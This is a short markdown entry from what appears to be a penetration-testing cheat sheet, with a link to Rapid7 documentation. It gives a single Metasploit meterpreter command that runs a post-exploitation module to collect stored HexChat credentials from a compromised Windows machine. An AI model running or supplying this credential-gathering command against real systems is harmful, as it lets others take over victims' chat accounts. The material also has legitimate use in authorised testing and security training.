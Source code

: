 # Instant Messengers

## 01 - Hexchat

### 1.1 - Metasploit

```
meterpreter > run post/windows/gather/credentials/xchat
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Gather Hexchat Credentials Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/xchat.md)